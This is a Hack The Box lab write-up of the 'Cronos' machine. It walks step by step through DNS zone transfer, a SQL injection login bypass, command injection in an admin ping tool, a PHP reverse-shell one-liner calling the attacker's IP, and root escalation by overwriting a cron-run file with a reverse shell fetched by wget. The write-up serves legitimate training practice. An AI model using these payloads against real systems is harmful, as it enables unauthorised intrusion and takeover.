










# HTB - Cronos

#### Ip: 10.10.10.13
#### Name: Cronos
#### Rating: Medium

----------------------------------------------------------------------



### Enumeration

As always, lets begin enumerating this box with an Nmap scan covering all TCP ports. When doing CTFs like this I like to add the `--min-rate 10000` flag to speed things along:

```text
┌──(ryan㉿kali)-[~/HTB/Cronos]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.13 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-27 12:32 CDT
Nmap scan report for 10.10.10.13
Host is up (0.084s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.86 seconds
```
Ok interesting. We have the classic ports 22 and 80 combo so frequently found on Linux CTFs, but also we see DNS port 53 open. While not unheard of by any means, it's also not very common either, and will likely be what I first focus on.

Let's further enumeratie the open ports using the `-sC` and `-sV` flags to use default scripts and enumerate versions, along with the `-T4` flag to speed things up:

```text
┌──(ryan㉿kali)-[~/HTB/Cronos]
└─$ sudo nmap -sC -sV -T4 10.10.10.13 -p 22,53,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-27 12:36 CDT
Nmap scan report for 10.10.10.13
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18b973826f26c7788f1b3988d802cee8 (RSA)
|   256 1ae606a6050bbb4192b028bf7fe5963b (ECDSA)
|_  256 1a0ee7ba00cc020104cda3a93f5e2220 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.29 seconds
```

This didn't find anything too juicy for us. SSH is a pretty safe and well built protocol, so not many vulnerabilities there. It looks like we've got Apache 2.4.18 on port 80/http landing on Apache's default "It Works" page. 

Let's take a quick look at DNS before turning our attention to http.

Going out on a limb based on past experience with HTB machines, their typical hostname format is box-name.htb. There are exceptions to this (sometimes AD boxes will just be HTB.local, etc), but first thing I'm going to try is a zone transfer using cronos.htb and the ip:



Nice! Were successfully able to do a zone transfer and get a few more targets to investigate. 

After adding all of these to my `/etc/hosts file`, my immediate attention goes to admin.cronos.htb. Let's check that out.



I'm met with just a simple login page. Checking out the source code for this page using `ctrl + u` doesn't yield anything juicy, and I'm unable to login with the standard weak credentials like admin:admin, admin:password, admin:cronos, root:root, etc. 

Let's try throwing some SQL injections to bypass the login at it. It took a bit a playing around, but in the end one of the most classic login bypasses worked for me: `' or 1=1-- - ` logged me in where I found this interesting feature:



Let's intercept a request using BurpSuite to look more closely at what's going on here. 



Ok cool, so it looks like the request has a command portion as well as a host. I know from the site that I can use both traceroute as well as ping as commands. I wonder if I can issue other common linux commands here? 

Sending the request to Repeater in Burp, I remove the default 8.8.8.8 address and see if I can get execution of other commands:

```text
command=id&host=
```

Nice! Looking at the response, we have execution here:



Let's see if we can try something more malicious now.

### Exploitation

Going to www.revshells.com I grab a php reverse shell one-liner to see if I can catch a reverse shell exploiting this execution.

I grab `php -r '$sock=fsockopen("10.10.14.20",443);exec("sh <&3 >&3 2>&3");'` and URL encode it (You can conveniently do this on revshells.com or simply paste it into Burp, highlight it and enter `ctrl + u` to URL encode)

After setting up a listener and sending the request, I get a callback to my machine as www-data.



I can quickly stabilize this shell by issuing:

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
And then grab the user.txt flag:



### Privilege Escalation

Quick aside, HTB is such a great site and has been invaluable to my own learning and practice, but one small beef I have with them (especially older boxes like this one) is the clues they leave when naming the boxes. I believe they may be moving away from this, but with a name like Cronos, my first thoughts when it comes to privesc is checking out cron-jobs on the machine. It's clever and all, but I would prefer a more black-box, not knowing what I'm walking into type experience.

Ok rant over, back to work. Lets see if we can see any interesting cron-jobs:

Interesting:



Looks like this file is being run every minute with root permissions. Let's do a little more investigation here, and see if we can write to this file:

```text
www-data@cronos:/var/www/laravel$ ls -la artisan
ls -la artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 artisan
```

Sweet, looks like all we need to do here is inject a php reverse shell into this file, set up a listener and wait for our root shell to arrive. Let's do it.

First I need to transfer from my machine to Cronos a copy of php-reverse-shell.php, after updating the script to reflect my Ip and port I'll be listening on:



Then I set up a Python http.server with `python -m http.server 80` and grab the file using wget:

```text
www-data@cronos:/var/www/laravel$ wget http://10.10.14.20/php-reverse-shell.php
<ravel$ wget http://10.10.14.20/php-reverse-shell.php                        
--2023-04-27 21:55:28--  http://10.10.14.20/php-reverse-shell.php
Connecting to 10.10.14.20:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5521 (5.4K) [application/octet-stream]
Saving to: 'php-reverse-shell.php'

php-reverse-shell.p 100%[===================>]   5.39K  --.-KB/s    in 0.001s  

2023-04-27 21:55:28 (6.26 MB/s) - 'php-reverse-shell.php' saved [5521/5521]
```

From here all I need to do is set up my listener and overwrite the artisan file with my shell:

`www-data@cronos:/var/www/laravel$ cp php-reverse-shell.php artisan`

After waiting just a few seconds (may take up to one minute) I got a call back to my listener as root:

```text
┌──(ryan㉿kali)-[~/HTB/Cronos]
└─$ nc -lnvp 8888
listening on [any] 8888 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.13] 45270
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 21:56:01 up  6:15,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# cd /root
# whoami
root
# hostname
cronos
```
All that's left to do is grab the root.txt flag:


And that's all she wrote! This was a fun box that reinforced some classic concepts. I enjoyed playing with DNS, the login bypass via SQLI, as well as exploiting the functionality of admin.cronos.htb to get RCE on the box. This is an older box that in my opinion should have been rated 'Easy', but I had a fun time with it nonetheless.

Thanks for following along!

-Ryan

----------------------------------------------------------------------------------------------------------------

